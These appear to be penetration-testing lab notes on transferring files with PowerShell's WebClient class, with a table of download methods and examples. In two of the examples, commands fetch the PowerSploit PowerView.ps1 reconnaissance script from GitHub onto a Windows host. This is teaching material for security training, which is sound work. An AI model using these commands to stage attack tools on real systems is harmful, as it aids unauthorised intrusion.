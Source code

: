 `Note: While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.`

# Notes on File Transfer Using PowerShell and WebClient

Most companies allow **HTTP** and **HTTPS** outbound traffic through the firewall to facilitate employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. However, defenders can implement **Web filtering solutions** to:

- Prevent access to specific website categories.
- Block the download of certain file types (e.g., `.exe`).
- Restrict access to a whitelist of domains in highly controlled networks.

## File Transfer with PowerShell

PowerShell offers various file transfer options. In any version of PowerShell, the `System.Net.WebClient` class can be used to download files over **HTTP**, **HTTPS**, or **FTP**.

### WebClient Methods for Downloading Data

| Method                 | Description                                                         |
|------------------------|---------------------------------------------------------------------|
| `OpenRead`             | Returns the data from a resource as a `Stream`.                    |
| `OpenReadAsync`        | Returns the data from a resource without blocking the calling thread. |
| `DownloadData`         | Downloads data from a resource and returns a `Byte` array.         |
| `DownloadDataAsync`    | Downloads data from a resource as a `Byte` array without blocking the calling thread. |
| `DownloadFile`         | Downloads data from a resource to a local file.                    |
| `DownloadFileAsync`    | Downloads data to a local file without blocking the calling thread. |
| `DownloadString`       | Downloads a `String` from a resource and returns a `String`.       |
| `DownloadStringAsync`  | Downloads a `String` without blocking the calling thread.          |

---

### Example: PowerShell `DownloadFile` Method

The `Net.WebClient` class and its `DownloadFile` method allow you to specify:

1. The URL of the target file to download.
2. The name of the output file where the content will be saved.

Example usage:
```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile("https://example.com/file.txt", "C:\path\to\output\file.txt")
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```
